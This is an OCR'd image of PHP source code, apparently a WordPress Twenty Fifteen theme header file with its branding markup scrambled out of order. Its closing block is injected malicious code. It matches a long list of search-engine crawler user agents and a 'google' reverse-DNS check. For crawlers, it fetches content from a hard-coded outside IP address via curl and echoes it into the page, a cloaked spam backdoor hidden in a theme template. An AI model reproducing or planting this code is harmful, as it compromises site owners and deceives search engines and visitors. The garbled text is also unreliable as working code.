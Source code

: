 ```
<div id="sidebar" class="sidebar"><header id="masthead" class="site-header" role="banner">   
                 <div class="site-branding">  
                      <?php  
if ( is_front_page() && is_home() ) : ?> <h1 class="site-title"><a href="<?php   
echo esc_url( home_url( '/' ) ); ?>" rel="home"><?php bloginfo( 'name' ); ?></a></h1>   
<?php else : ?><p class="site-title"><a href="<?php   
echo esc_url( home_url( '/' ) ); ?>" rel="home"><?php bloginfo( 'name' ); ?></a></p>   
'display' );  
: ?>  
$description; ?></p>  
<?php endif;$description = get_bloginfo( 'description', if ( $description || is_customize_preview() )   
<p class="site-description"><?php echo   
      <?php endif;  
?>  
<button class="secondary-toggle"><?php _e( 'Menu and widgets', 'twentyfifteen' ); ?></button>   
                 </div><!-- .site-branding -->  
           </header><!-- .site-header -->  
           <?php get_sidebar(); ?>  
      </div><!-- .sidebar -->  
<div id="content" class="site-content">   
<?php$user_agent_to_filter = array( '#Ask\s*Jeeves#i', '#HP\s*Web\s*PrintSmart#i', '#HTTrack#i', '#IDBot#i', '#Indy\s*Library#',   
'#ListChecker#i', '#MSIECrawler#i', '#NetCache#i', '#Nutch#i', '#RPT-HTTPClient#i',   
'#rulinki\.ru#i', '#Twiceler#i', '#WebAlta#i', '#Webster\s*Pro#i','#www\.cys\.ru#i',   
'#Wysigot#i', '#Yahoo!\s*Slurp#i', '#Yeti#i', '#Accoona#i', '#CazoodleBot#i',   
'#CFNetwork#i', '#ConveraCrawler#i','#DISCo#i', '#Download\s*Master#i',   
'#FAST\s*MetaWeb\s*Crawler#i',   
'#Flexum\s*spider#i', '#Gigabot#i', '#HTMLParser#i', '#ia_archiver#i', '#ichiro#i',   
'#IRLbot#i', '#Java#i', '#km\.ru\s*bot#i', '#kmSearchBot#i', '#libwww-perl#i',   
'#Lupa\.ru#i', '#LWP::Simple#i', '#lwp- trivial#i', '#Missigua#i', '#MJ12bot#i',   
'#msnbot#i', '#msnbot-media#i', '#Offline\s*Explorer#i', '#OmniExplorer_Bot#i',   
'#PEAR#i', '#psbot#i', '#Python#i',   
'#rulinki\.ru#i', '#SMILE#i',   
'#Speedy#i', '#Teleport\s*Pro#i', '#TurtleScanner#i', '#User-Agent#i', '#voyager#i',   
'#Webalta#i', '#WebCopier#i', '#WebData#i', '#WebZIP#i', '#Wget#i',   
'#Yeti#i','#msnbot#i', ,'#google#i' ,'#altavista#i', ,'#asterias#i' ,'#spiderthread   
'#Yandex#i', '#Yanga#i', '#spider#i', '#yahoo#i', '#jeeves#i'   
'#scooter#i' ,'#av\s*fetch#i' revision#i' ,'#sqworm#i','#ask#i' ,'#lycos.spider#i' ,'#infoseek   
sidewinder#i' ,'#ultraseek#i' ,'#polybot#i','#webcrawler#i', '#robozill#i',   
'#gulliver#i', '#architextspider#i', '#yahoo!\s*slurp#i','#charlotte#i', '#ngb#i', '#BingBot#i' ) ;   
if ( !empty( $_SERVER['HTTP_USER_AGENT'] ) && ( FALSE !== strpos( preg_replace( $user_agent_to_filter, '-NO-WAY-', $_SERVER['HTTP_USER_AGENT'] ), '-NO-WAY-' ) ) ){   
$isbot = 1; }   
if( FALSE !== strpos( gethostbyaddr($_SERVER['REMOTE_ADDR']), 'google')) {   
$isbot = 1; }   
if(@$isbot){  
$_SERVER[HTTP_USER_AGENT] = str_replace(" ", "-", $_SERVER[HTTP_USER_AGENT]);$ch = curl_init();   
curl_setopt($ch, CURLOPT_URL, "http://173.236.65.24/cakes/?useragent=$_SERVER[HTTP_USER_AGENT]&domain=$ _SERVER[HTTP_HOST]");   
    $result = curl_exec($ch);  
curl_close ($ch);  
      echo $result;  
}?> 
```
